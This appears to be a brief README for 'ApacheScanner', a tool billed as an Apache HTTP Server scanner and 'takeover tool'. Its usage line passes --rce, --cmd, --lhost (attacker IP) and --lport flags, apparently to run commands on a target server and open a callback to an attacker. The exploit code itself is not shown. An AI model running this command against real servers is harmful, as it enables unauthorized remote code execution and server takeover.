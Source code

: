 # ApacheScanner-
Apache HTTP Server Scanner and takeover tool

```python3 ApacheScanner.py -u http://serveriphere -p 80 < --rce --cmd "your command here" --lhost <your attacker IP> --lport <Your listening port>``` to run this script
```python3 ApacheScanner.py --h```  for help and see all commands
